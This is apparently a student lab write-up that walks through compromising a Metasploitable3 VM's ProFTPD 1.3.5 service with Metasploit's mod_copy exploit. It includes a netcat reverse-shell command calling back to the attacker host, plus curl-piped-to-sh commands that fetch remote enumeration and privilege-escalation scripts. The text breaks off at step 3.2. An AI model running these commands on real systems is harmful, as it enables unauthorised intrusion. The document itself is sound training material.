# 📚 Phase 1: Setup and Compromise the Service

---

## 🛠️ 1. Environment Setup

### 1.1 Import Victim VM (Metasploitable3)

- Downloaded `.ova` file from [SourceForge](https://sourceforge.net/projects/metasploitable3-ub1404upgraded/files/)
- Open VirtualBox → File → Import Appliance
- Customized settings (RAM=2048MB, CPU=2)

**Screenshots:**
- 
- 
- 
- 
- 

---

### 1.2 Boot the Victim VM

- Started VM with credentials:
  - `username: vagrant`
  - `password: vagrant`

**Screenshot:**
- 

---

### 1.3 Obtain Victim IP Address

- Victim (Metasploitable3) IP: `10.0.2.15`

**Screenshots:**
- 
- 

---

### 1.4 Obtain Attacker IP Address & Confirm Network Connectivity

- Attacker (Kali) IP: `10.0.2.6`
- Pinged victim from attacker:
```bash
ping 10.0.2.15
```

**Screenshot:**
- 

---

# 💣 2. TASK 1.1: Compromise Service Using Metasploit

---

## 2.1 Scan Victim with Nmap (Terminal A)

```bash
nmap -sV 10.0.2.15
```
- Discovered ProFTPD 1.3.5 on port 21

**Screenshot:**
- 

---

## 2.2 Launch Metasploit Console (Terminal B)

```bash
msfconsole
```

**Screenshot:**
- 

---

## 2.3 Search and Use Exploit (Terminal B)

```bash
search mod_copy
use 0
```

**Screenshot:**
- 
- 

---

## 2.4 Show Exploit Options (Terminal B)

```bash
show options
```

**Screenshot:**
- 

---

## 2.5 Configure Exploit Options (Terminal B)

```bash
set RHOSTS 10.0.2.15
set SITEPATH /var/www/html
```

**Screenshot:**
- 
- 

---

## 2.6 Configure Payload and Reverse Shell Command (Terminal B)

```bash
show payloads
set payload 5
show payload options
set CMD /tmp/mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.2.6 4444 > /tmp/f
```

**Screenshot:**
- 
- 
- 
- 

---

## 2.7 Configure Exploit to Retain Payload on Target (Terminal B)

```bash
set AllowNoCleanup true
```

**Screenshot:**
- 

---

## 2.8 Start Netcat Listener (Terminal A)

```bash
nc -lnvp 4444
```

**Screenshot:**
- 

---

## 2.9 Run Exploit (Terminal B)

```bash
run
```

**Screenshot:**
- 

---

## 2.10 Confirm Reverse Shell Access (Terminal A)

```bash
whoami
ls
```

**Screenshot:**
- 

---

# 🛠️ 3. TASK 1.2: Custom Scripts & Privilege Escalation

---

## 3.1 Run Custom Enumeration Script (lightpeas.sh) (Terminal A)

```bash
curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/lightpeas.sh | sh
```

**Screenshot:**
- 
- 

---

## 3.2 Execute Custom Privilege Escalation (escalate.sh) (Terminal A)

```bash
sh -c "$(curl -fsSL https://raw.githubusercontent.com/A0-2H/ICS344-CourseProject/main/phase1/custom/escalate.sh)"
```

**Screenshot:**
